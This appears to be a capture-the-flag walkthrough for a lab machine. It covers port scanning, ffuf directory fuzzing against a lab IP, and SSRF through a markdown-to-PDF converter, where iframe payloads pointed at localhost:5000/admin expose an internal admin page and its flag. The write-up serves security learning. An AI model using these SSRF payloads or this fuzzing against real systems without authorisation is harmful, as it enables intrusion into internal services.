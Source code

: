 ﻿---
sticker: lucide//code
---

# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 5000 | RSTP    |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![Pasted image 20250617123928.png](../../IMAGES/Pasted%20image%2020250617123928.png)

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a serverâ€‘side renderer, whether thatâ€™s a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.129.226/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![Pasted image 20250617124337.png](../../IMAGES/Pasted%20image%2020250617124337.png)

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![Pasted image 20250617125048.png](../../IMAGES/Pasted%20image%2020250617125048.png)

![Pasted image 20250617125056.png](../../IMAGES/Pasted%20image%2020250617125056.png)

It works, let's read admin resource then:

```js
<iframe 
  src="http://localhost:5000/admin" 
  style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![Pasted image 20250617125137.png](../../IMAGES/Pasted%20image%2020250617125137.png)

![Pasted image 20250617125144.png](../../IMAGES/Pasted%20image%2020250617125144.png)

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![Pasted image 20250617125225.png](../../IMAGES/Pasted%20image%2020250617125225.png)


